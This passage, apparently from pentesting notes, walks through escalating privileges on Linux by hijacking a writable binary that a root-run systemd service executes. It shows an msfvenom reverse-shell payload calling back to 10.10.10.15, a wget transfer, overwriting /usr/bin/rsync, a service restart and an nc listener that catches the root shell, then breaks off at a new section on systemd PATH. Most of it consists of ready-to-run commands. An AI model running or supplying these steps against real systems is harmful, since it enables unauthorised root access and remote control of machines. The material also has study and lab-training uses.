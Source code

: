 Generate a reverse shell payload:

```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.15 LPORT=53 -f elf -o rev_shell
```

Transfer the file to the target:

```shell
sudo python3 -m http.server 80

cd /dev/shm
wget 10.10.10.15/rev_shell -O rev_shell
```

Add execute permissions:

```shell
chmod +x rev_shell
```

Replace the original binary with the reverse shell payload:

```shell
cp /dev/shm/rev_shell /usr/bin/rsync
```

Setup a listener:

```shell
sudo nc -lvnp 53
```

Since this service is configured to run as the root user. The payload will be executed under the security context of the root user.

```shell
systemctl restart name.service
```

Then we'll a receive a shell as the root user:

```shell
sudo nc -lvnp 53
```

Afterwards, we can restore the backup:

```shell
cp /tmp/rsync.bak /usr/bin/rsync 
```

Remove the binary writable permissions:

```shell
sudo chmod o-w /usr/bin/rsync
```

# Privilege Escalation via systemd PATH

We can see the `path` environment variable used by **systemd** with the following command:
